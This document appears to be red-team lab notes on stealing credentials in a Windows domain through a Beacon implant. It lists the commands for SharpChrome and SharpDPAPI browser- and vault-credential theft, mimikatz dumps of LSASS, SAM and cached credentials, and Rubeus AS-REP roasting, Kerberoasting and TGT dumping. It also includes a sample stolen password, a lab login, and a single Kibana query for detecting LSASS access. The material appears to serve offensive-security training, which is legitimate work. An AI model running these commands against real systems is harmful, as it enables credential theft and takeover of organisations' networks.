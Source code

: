### Browser + Credential Manager
- From the medium-integrity Beacon, read the credentials from Chrome's database.

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

`CONTOSO\pchilds,Passw0rd!`

- From the medium-integrity Beacon, enumerate the vault.

```powershell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

-  Decrypt the credentials using RPC to fetch the DPAPI key.

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

### OS Credentials
In a system shell...

##### LSASS Memory
Dump NTLM hashes
```powershell
mimikatz sekurlsa::logonpasswords
```

##### Kerberos Keys
Dump Kerberos encryption keys.
```pwoershell
mimikatz sekurlsa::ekeys
```

##### Security Account Manager
Dump SAM database
```powershell
mimikatz lsadump::sam
```

##### Cached Domain Credentials
Dump the cached domain logon credentials.
```powershell
mimikatz lsadump::cache
``` 

---
- Switch to [Kibana](https://labclient.labondemand.com/Instructions/72018694-7d99-4cce-b95d-16a990bbcb52#) and sign in.
    
-  Browse to https://lon-elk-1:5601.
    
-  Log in with elastic : elastic.
    
-  Expand the menu on the left (the icon with the three horizontal lines).
    
-  Under **Analytics**, click **Discover**.
    
-  In the search box at the top of the page, run the following query:
    
    KQLTypeCopy
    
    `event.code: "10" and winlog.event_data.TargetImage: "C:\\Windows\\system32\\lsass.exe"`
    
-  Review the events that appear.

---
### Kerberos Tickets

## AS-REP Roasting

1.  From the medium-integrity Beacon, use Rubeus to AS-REP roast every account that does not have pre-authentication enabled.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap`
    

## Kerberoasting

1.  From the medium-integrity Beacon, use Rubeus to Kerberoast every user account that has an SPN set.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /format:hashcat /simple`
    

## Dumping Tickets

1.  From the high-integrity Beacon, use Rubeus to triage Kerberos tickets for all users.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`
    
2.  Use Rubeus to dump the TGT for rsteel.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:[LUID] /service:krbtgt /nowrap`